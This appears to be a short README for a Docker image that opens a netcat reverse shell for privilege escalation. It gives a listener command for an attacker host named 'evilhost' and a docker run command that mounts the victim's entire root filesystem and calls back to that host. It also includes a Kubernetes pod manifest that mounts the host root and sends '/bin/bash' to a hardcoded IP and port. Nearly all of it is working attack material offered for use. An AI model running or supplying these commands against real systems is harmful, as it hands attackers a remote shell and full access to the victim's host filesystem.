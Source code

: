 # netcatrevershell

Docker image for privilege escalation.

On evilhost side:
```
netcat -l -p evilhost_port
```

On victim side:

```
docker run --rm -v /:/host rahulkiit/netcatreverseshell:latest evilhost_host evilhost_port
```

Kubernetes

```
apiVersion: v1
kind: Pod
metadata:
  name: ncat-reverse-shell-pod
  labels:
    app: ncat
spec:
  containers:
  - name: ncat-reverse-shell
    image: rahulkiit/netcatreverseshell:latest
    volumeMounts:
    - mountPath: /host
      name: hostvolume
    args: ['192.168.34.222', '8081', '-e', '/bin/bash']
  volumes:
  - name: hostvolume
    hostPath:
      path: /
      type: Directory
```
